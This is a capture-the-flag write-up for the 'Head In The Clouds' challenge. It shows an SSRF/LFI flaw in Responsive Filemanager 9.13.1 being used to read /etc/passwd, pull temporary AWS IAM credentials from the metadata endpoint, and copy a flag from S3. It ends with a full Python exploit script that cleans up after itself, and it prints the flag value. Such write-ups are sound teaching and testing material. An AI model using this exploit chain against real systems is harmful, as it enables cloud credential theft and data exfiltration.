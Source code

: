# Head In The Clouds

Challenge Author: Arne Swinnen

Challenge files: https://s3-eu-west-1.amazonaws.com/be.cscbe.challenges.2021/headintheclouds_17ff529a880917fca4dbbaeb52995f40/responsive_filemanager_fixed.zip

# Writeup


1.	Browsing directly to the Flag URL yields Access Denied:

![writeup](.//img/Picture1.png)


2.	By investigating the Docker container, we can see the web application is an instance of the Responsive Filemanager version 9.13.1:

![writeup](/img/Picture2.png)

 
3.	Some googling highlights a Server-Side Request Forgery & Local File Inclusion vulnerability in this exact version: https://www.exploit-db.com/exploits/45103 . This is clearly a vulnerability in the Upload section. Notice that this PoC also references metadata URL http://169.254.169.254/openstack: 

 ![writeup](/img/Picture13.png)

4.	Visiting the hosted web application, we can effectively enter URL file:///etc/passwd and hereafter download this file from the dashboard. However, this isn’t helpful for the challenge, as the flag is not hosted in the Docker container but on an external AWS S3 bucket:


 
![writeup](/img/Picture3.png)
![writeup](/img/Picture4.png)
 

 
5.	Entering the flag’s URL unfortunately results in Access Denied:
  

![writeup](/img/Picture5.png)
![writeup](/img/Picture6.png)
 
6.	However, since the Docker is also hosted on AWS, the AWS Metadata endpoint at http://169.254.169.254/latest/meta-data/iam/security-credentials/ is also reachable. After entering this URL, we indeed get a JSON file back mentioning role “cscbe2020challengearneswinnen”:

![writeup](/img/Picture7.png)
![writeup](/img/Picture8.png)

 
7.	Requesting file http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen yields temporary AWS credentials:

![writeup](/img/Picture9.png)
![writeup](/img/Picture10.png) 

 
8.	By using these temporary credentials in the correct manner, we can now copy the flag.txt file from the target S3 bucket to our own machine with the AWS CLI and read out the flag:

![writeup](/img/Picture11.png)

```
# export AWS_ACCESS_KEY_ID=XXX
# export AWS_SECRET_ACCESS_KEY=YYY
# export AWS_SESSION_TOKEN=ZZZ
# aws s3 ls s3://cscbe2020challengearneswinnen
# aws s3 cp s3://cscbe2020challengearneswinnen/flag.txt . 
# cat flag.txt
```

 
 
9.	The python3 script below automates exploitation and cleans up as well. It returns the flag in case of success and errors otherwise, hence allowing you to use this to poll the challenge to confirm it’s still working: 

```python
import argparse
import requests
import boto3

parser = argparse.ArgumentParser(description='CSCBE2020ChallengeArneSwinnen PoC')
parser.add_argument("--target", required=True, type=str, help="Target URL (e.g. http://ec2-18-185-136-255.eu-central-1.compute.amazonaws.com:8080")
args = parser.parse_args()

proxies = {
    "http": "http://127.0.0.1:8080",
    "https": "http://127.0.0.1:8080",
}

s = requests.Session()
# s.proxies.update(proxies)
s.get(args.target + "/filemanager/dialog.php")
r1 = s.post(args.target + "/filemanager/upload.php", data = {"fldr":"","url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/cscbe2020challengearneswinnen"})
r2 = s.get(r1.json()['files'][0]['url'])
s.post(args.target + "/filemanager/execute.php?action=delete_file", data = {"name":"","path":r1.json()['files'][0]['name']})

s3_resource = boto3.resource(
    's3',
    aws_access_key_id=r2.json()["AccessKeyId"],
    aws_secret_access_key=r2.json()["SecretAccessKey"],
    aws_session_token=r2.json()["Token"]
)

obj = s3_resource.Object('cscbe2020challengearneswinnen', 'flag.txt')
body = obj.get()['Body'].read()

if body.decode("utf-8") == "CSC{MasterOfTheClouds}":
	print(body.decode("utf-8"))
	exit(0)
else:
	exit(1)
```